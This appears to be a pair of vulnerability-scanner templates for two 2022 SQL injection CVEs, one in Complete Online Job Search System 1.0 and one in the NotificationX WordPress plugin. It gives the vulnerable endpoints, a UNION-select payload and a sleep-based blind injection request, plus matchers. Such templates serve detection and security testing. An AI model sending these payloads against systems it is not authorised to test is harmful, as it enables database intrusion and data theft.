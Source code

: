 
# Complete Online Job Search System 1.0 - SQL Injection

## Description

- Complete Online Job Search System 1.0 contains a SQL injection vulnerability via /eris/index.php?q=category&search=. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,sqli,jobsearch

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?q=category&search=Banking%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,md5({{num}}),15,16,17,18,19--+

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

---

# NotificationX WordPress plugin \< 2.3.9 - SQL Injection

## Description

- The NotificationX WordPress plugin before 2.3.9 does not sanitise and escape the nx_id parameter before using it in a SQL statement, leading to an Unauthenticated Blind SQL Injection.

- severity - critical
- tags - cve2022,wordpress,wp-plugin,wp,sqli,notificationx,wpscan,cve

## Requests

### Step - 1

```
@timeout: 15s
POST /?rest_route=/notificationx/v1/analytics HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

nx_id=sleep(6) -- x

```
